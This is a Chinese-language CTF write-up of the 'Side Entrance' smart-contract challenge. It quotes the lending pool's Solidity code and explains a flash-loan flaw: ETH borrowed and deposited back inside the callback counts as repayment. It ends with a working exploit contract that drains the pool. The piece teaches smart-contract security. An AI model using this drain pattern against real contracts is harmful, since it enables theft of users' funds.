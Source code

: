 # SideEntrance (24/09/03)

## 题目介绍

> **#侧入口**
>
> **一个令人惊讶的简单池允许任何人存入ETH，并随时提取ETH。**
>
> **它已经有1000个ETH的余额，并正在使用存入的ETH提供免费的闪贷款来推广他们的系统。**
>
> **Yoy从1 ETH开始平衡。通过从池中拯救所有ETH并将其存入指定的恢复账户来通过挑战。**

## 合约分析

就一个文件，一个闪电贷一个存款和取款函数。闪电贷根据余额来判断是否进行还款。

``` solidity
    function deposit() external payable {
        unchecked {
            balances[msg.sender] += msg.value;
        }
        emit Deposit(msg.sender, msg.value);
    }

    function withdraw() external {
        uint256 amount = balances[msg.sender];

        delete balances[msg.sender];
        emit Withdraw(msg.sender, amount);

        SafeTransferLib.safeTransferETH(msg.sender, amount);
    }

    function flashLoan(uint256 amount) external {
        uint256 balanceBefore = address(this).balance;

        IFlashLoanEtherReceiver(msg.sender).execute{value: amount}();

        if (address(this).balance < balanceBefore) {
            revert RepayFailed();
        }
    }
```



## 解题过程

我们可以从代码中看到这是一个很明显的重入漏洞，调用闪电贷的时候直接存款会把攻击者的余额记录起来，同时也满足最后还款的检查。在最后调用取款直接把资金提走。

**poc**

``````solidity
contract Exploit {

    SideEntranceLenderPool pool;
    address payable public  recovery;

    constructor(SideEntranceLenderPool _pool,address payable _recovery){
        pool=_pool;
        recovery=_recovery;
    }
    function attack()public{
        pool.flashLoan(address(pool).balance);
        //最后取款
        pool.withdraw();
        recovery.transfer(address(this).balance);
    }
    //重入存款完成攻击
    function execute()public payable{
        pool.deposit{value: address(this).balance}();
    }

  receive() external  payable {}
}
``````
